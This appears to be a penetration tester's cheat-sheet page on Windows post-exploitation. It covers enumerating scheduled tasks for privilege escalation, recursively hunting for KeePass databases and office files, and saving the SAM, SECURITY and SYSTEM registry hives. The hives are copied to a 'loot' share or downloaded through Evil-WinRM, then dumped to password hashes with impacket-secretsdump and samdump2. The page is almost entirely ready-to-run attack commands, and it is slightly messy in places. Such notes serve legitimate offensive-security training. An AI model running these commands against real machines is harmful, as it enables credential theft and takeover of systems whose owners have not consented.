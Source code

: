 Once the password is entered, a new command line window appears. The title of the new window states running as CLIENTWK220\backupadmin.

Use whoami to confirm the command line is working and we are indeed backupadmin.

#### Windows' Grep (With Context)

```bash
> schtasks /query /fo LIST | Select-String -Pattern 12 -Context 4,4
> Get-Content file.txt | Select-String -Pattern OS -Context 2,4
```

#### schtasks

Allows you to see the scheduled tasks on your local box (once you have a shell/ssh session). The following is command useful as it will essentially answer the quesion, if we can exploit this, what kind of priviledges will we gain?

```bash
schtasks /query
...
schtasks /query /fo LIST /v > schtasks.txt  
schtasks /query /fo LIST /v /TN "FTP Backup"
```

#### Recursively Search Through Directories (May only be in CMD)

```bash
dir /s/b file.txt
```
Get-ChildItem -Path C:\ -Include "MSSQLSERVER","SQL","Server","*\?*","MSSQL16","SQLAGENT" -File -Recurse -ErrorAction SilentlyContinue
#### Recursively Search a User's Workstation

```bash
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

#### SAM and SYSTEM Files

Always check the SAM if there's any sort of backup or loose permissions in SMB. If you're ever able to run into the SAM or SYSTEM files in Windows smb or filesystemm:

```bash
reg save hklm\security c:\security
reg save hklm\sam c:\sam
reg save hklm\system c:\system

copy C:\sam z:\loot
copy c:\security z:\loot
c:\system z:\loot

*Evil-WinRM* PS C:\windows.old\Windows\system32> download SAM
*Evil-WinRM* PS C:\windows.old\Windows\system32> download SYSTEM


TRY IT WITHOUT PUTTING THE PASSWORD IN THE PROMPT

impacket-secretsdump -sam SAM -system SYSTEM LOCAL
/opt/impacket/examples/secretsdump.py -sam sam -security security -system system LOCAL
impacket-secretsdump Admin:'password'@$ip -outputfile hashes
impacket-secretsdump Admin:@$ip -outputfile hashes

samdump2 SYSTEM SAM
*disabled* Admin:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```